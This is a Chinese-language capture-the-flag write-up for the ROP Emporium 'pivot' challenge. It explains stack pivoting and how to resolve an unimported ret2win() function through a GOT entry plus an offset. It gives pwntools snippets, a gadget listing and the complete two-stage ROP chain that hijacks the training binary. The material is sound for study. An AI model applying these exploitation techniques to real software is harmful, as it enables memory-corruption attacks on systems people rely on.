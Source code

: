 Hint1:
> There's only enough space for a three-link chain on the stack but you've been given space to
stash a much larger ROP chain elsewhere. Learn how to pivot the stack onto a new location.

Hint2:
> The ret2win() function in the libpivot.so shared object isn't imported, but that doesn't mean
you can't call it using ROP! You'll need to find the .got.plt entry of foothold_function() and
add the offset of ret2win() to it to resolve its actual address. Notice that foothold_function()
isn't called during normal program flow, you'll have to call it first to populate the .got.plt entry.

<br>

## Stack Pivot
简单来说就是：改变 esp 的值，让它指向另一处的内存。

如果某处内存不够放完整的 ROP Chain，我们可以把完整的 ROP Chain 分成数段，分别摆在内存不同处，然后通过改变 esp 逐段执行。

<br>

## Calling Unimported Functions in Shared Library (.so)
这道题我们需要呼叫 ret2win() 来打印 flag，但 ret2win() 在程式中完全没被呼叫，那么我们怎么知道它是真实位址呢？

我们可以用 pwntools 计算出 ret2win() 和 foothold_function() 的偏移量：
```
from pwn import *

lib = ELF('libpivot32.so')
offset = lib.symbols['ret2win'] - lib.symbols['foothold_function']
```

然后我们先呼叫 `foothold_function@plt`，让其真实位址被填入 GOT 内。

接着取得 foothold_function() 在 GOT 中所对应 entry 的位址（注意：是 entry 的位址，不是 foothold_function 本身）
```
elf = ELF('pivot32')
foothold_function_got = elf.got['foothold_function']
```

也就是说，foothold_function_got 指向的内存空间中，存的就是 foothold_function() 的真实位址。

有了 foothold_function() 的真实位址，我们只要再加上刚刚算的 offset，就会得到 ret2win() 的真实位址了。
```
ret2win 真实位址 = [foothold_function_got] + offset
```

<br>

## Reverse
这题在 pwnme() 里面调用两次 fgets()：
1. 第一次，会写入 heap 某处（题目在一开始就先用 malloc() 获得了 heap 上 100 bytes 的空间，后面才呼叫 fgets()）
2. 第二次，会写入 stack（但最多只让使用者写0x3a bytes）

所以我们要做什么呢？
1. 第一次，题目要我们输入我们真正的 ROP Chain
2. 第二次，题目要我们进行 stack pivot

我們只要先 stack pivot，然後想辦法執行到 ret2win() 這個函數就可以了。

<br>

## ROP Gadgets
先看看题目给了哪些 gadgets：
```
pwndbg> disas usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x080488c0 <+0>:     pop    eax                  <--- gadget1
   0x080488c1 <+1>:     ret
   0x080488c2 <+2>:     xchg   esp,eax              <--- gadget2
   0x080488c3 <+3>:     ret
   0x080488c4 <+4>:     mov    eax,DWORD PTR [eax]  <--- gadget4
   0x080488c6 <+6>:     ret
   0x080488c7 <+7>:     add    eax,ebx              <--- gadget3
   0x080488c9 <+9>:     ret
（省略若干行）
```

用 `ROPGadget --binary pivot32` 可以再找到兩个有用的 gadgets：
```
0x08048571 : pop ebx ; ret   <--- gadget5
0x080486a3 : call eax        <--- gadget6
```

## Pwn
有了以上六个 gadgets，我们可以设计 ROP Chain 了。

下面这段输入到第一次 fgets() 里：
```
ret: foothold_function@plt +
ret: gadget1 +
eax: foothold_function@got.plt +
ret: gadget4 +   ---> eax = foothold_function() 的真实位址
ret: gadget5 +
ebx: offset +    ---> 0x1f7
ret: gadget3 +   ---> add eax, ebx 之后，eax = ret2win() 的真实位址
ret: gadget6     ---> call eax
```

下面这段输入到第二次 fgets() 里：
```
padding: 11 * 'AAAA' +
ret: gadget1 +
eax: pivot_dest +
ret: gadget2
```
